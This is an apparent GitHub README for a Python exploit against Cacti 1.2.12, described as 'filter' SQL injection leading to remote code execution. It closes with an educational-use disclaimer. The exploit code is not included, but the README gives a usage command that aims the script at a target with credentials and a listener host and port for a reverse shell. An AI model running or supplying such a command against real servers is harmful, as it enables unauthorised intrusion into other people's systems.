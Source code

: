 # Project Title

Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution 

## Description

Remote Code Exectuion of Cacti using Python

### Executing program

* Using python3
```
python3 cacti.py -t http://exploitcacti.blah -u username -p password --lhost 10.10.10.1 --lport 1337
```

## Help

Help prompt
```
python3 cacti.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.


